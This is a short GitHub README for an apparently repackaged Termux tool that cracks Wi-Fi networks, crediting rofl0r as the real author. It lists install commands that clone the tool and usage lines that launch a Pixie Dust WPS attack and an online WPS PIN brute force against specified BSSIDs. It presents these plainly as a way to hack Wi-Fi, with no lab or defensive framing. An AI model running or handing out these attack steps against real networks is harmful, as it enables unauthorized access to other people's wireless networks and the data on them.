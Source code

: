 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src=".assets/demo.png"></p>

### Installation :

```bash
pkg update && apt upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wifi_hack
cd wifi_hack
chmod +x wifi.py
```
#### Help : `sudo python wifi.py --help`
#### Example : `sudo python wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@
